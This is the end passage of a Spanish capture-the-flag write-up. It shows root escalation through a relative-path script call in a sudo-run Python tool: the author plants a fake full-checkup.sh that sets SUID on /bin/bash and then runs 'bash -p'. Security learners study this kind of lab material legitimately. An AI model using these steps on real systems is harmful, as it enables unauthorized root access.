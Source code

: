 Donde vi vemos la opcion de ```full-checkup``` esta ejecutando un archivo sh:

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Donde el script ```full-checkup.sh``` no se le indica la ruta, es decir, se ejecuta desde el directorio donde este el usuario, asi que... ¿Por que no crearlo?, me ire al directorio /tmp y dentro del script, le asignare permisos SUID a /bin/bash:

```
#!/bin/bash
chmod +s /bin/bash
```

Ahora solo ponemos: ```bash -p``` y ya somos root

```
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
f46884c23c53cc716ac549803*******
```

Eso ha sido todo, gracias por leer ❤


![](/assets/img/busqueda/waifu.gif)